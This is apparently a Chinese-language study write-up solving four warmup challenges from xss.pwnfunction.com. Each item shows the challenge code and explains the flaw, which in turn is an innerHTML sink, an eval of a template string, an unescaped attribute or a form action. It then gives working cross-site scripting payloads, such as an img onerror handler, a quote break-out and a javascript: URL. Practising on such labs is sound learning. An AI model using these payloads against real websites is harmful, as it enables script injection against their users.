 # XSS

## 链接

* [XSS Cheat Sheet](https://www.mdeditor.tw/pl/ppwu/zh-tw)
* [PortSwigger Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

## xss.pwnfunction.com 题目解析

1. ma-spaghet!

```html
<!-- Challenge -->
<h2 id="spaghet"></h2>
<script>
    spaghet.innerHTML = (new URL(location).searchParams.get('somebody') || "Somebody") + " Toucha Ma Spaghet!"
</script>
```

**问题分析**

Client side script 将URL中的somebody参数作为**spaghet**的innerHTML。因此，只要构造一个合法的HTML标签来触发Javascript代码即可。
由于<script>标签只能作为<head>或者<body>的子节点，这里可以考虑使用<svg>或者<img>标签。

**答案**

* <img src="x" onerror="alert(1337)">
* <svg onload="alert(1337)"/>

2. Jefff

题目链接：https://xss.pwnfunction.com/warmups/jefff/

```html
<!-- Challenge -->
<h2 id="maname"></h2>
<script>
    let jeff = (new URL(location).searchParams.get('jeff') || "JEFFF")
    let ma = ""
    eval(`ma = "Ma name ${jeff}"`)
    setTimeout(_ => {
        maname.innerText = ma
    }, 1000)
</script>
```

**问题分析**

Client side script 将URL中的jeff参数注入到一段代码中，然后执行这段代码。这里使用了模版字面量
（[Template literals](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals)）。
jeff参数被编码成一段字符串与"Ma name "连接。因此，如果想要注入代码并获得执行，需要break这段字符串。

**答案**

* \"-alert(1237)-\"

这里使用转义字符来插入引号，插入减号（也可以插入加号，但是要做URL编码）来构造一段合法的js代码（ma = "Ma name " - alert(1337) - ""）。

3. Ugandan Knuckles

题目链接：https://xss.pwnfunction.com/warmups/da-wey/

```html
<!-- Challenge -->
<div id="uganda"></div>
<script>
    let wey = (new URL(location).searchParams.get('wey') || "do you know da wey?");
    wey = wey.replace(/[<>]/g, '')
    uganda.innerHTML = `<input type="text" placeholder="${wey}" class="form-control">`
</script>
```

**问题分析**

Client side script将参数 wey 插入到<input>中国作为属性placeholder的值。因此，需要break引号，并插入一个新的属性，使其触发alert函数。

**答案**

* " onfocus=alert(1337) autofocus="
* " onclick="alert(1337)

4. Ricardo Milos

题目链接：https://xss.pwnfunction.com/warmups/ricardo/

```html
<!-- Challenge -->
<form id="ricardo" method="GET">
    <input name="milos" type="text" class="form-control" placeholder="True" value="True">
</form>
<script>
    ricardo.action = (new URL(location).searchParams.get('ricardo') || '#')
    setTimeout(_ => {
        ricardo.submit()
    }, 2000)
</script>
```

**问题分析**

<script>标签中的代码将 ricardo 参数赋值给 ricardo form 的 action。[HTML Form](https://www.w3schools.com/tags/att_form_action.asp)
的 action 属性是一个URL。如果它包含了javascript协议号，则其后的代码会被浏览器执行，可参考
[RULE#7 - Avoid Javascript URLs](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)。

**答案**

* javascript:alert(1337)

